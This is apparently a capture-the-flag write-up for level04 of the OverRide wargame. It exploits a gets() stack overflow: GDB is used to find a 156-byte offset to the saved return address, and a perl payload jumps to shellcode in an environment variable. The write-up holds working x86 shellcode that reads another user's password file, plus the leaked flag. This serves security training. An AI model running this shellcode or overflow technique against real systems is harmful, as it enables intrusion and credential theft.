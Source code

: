 # level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```assembly
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
[...]
0x08048757 <+143>:	lea    eax,[esp+0x20]
0x0804875b <+147>:	mov    DWORD PTR [esp],eax
0x0804875e <+150>:	call   0x80484b0 <gets@plt>
[...]
```
```
level04@OverRide:~$ gdb -q level04
(gdb) set follow-fork-mode child
(gdb) break *0x0804875e
Breakpoint 1 at 0x804875e
(gdb) run
Starting program: /home/users/level04/level04
[New process 1952]
Give me some shellcode, k
[Switching to process 1952]

Breakpoint 1, 0x0804875e in main ()
(gdb) info registers eax
eax            0xffffd670	-10640
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd670
$1 = 156
```
The program calls `fork` to create a new process, then its child process (pid == 0) calls `gets` to read stdin. We used `set follow-fork-mode child` to let GDB follow the child process and got offset `156` by calculating `eip - eax`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>

int main(void)
{
	printf("0x%08x\n", getenv("SHELLCODE"));
}
```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156 . pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
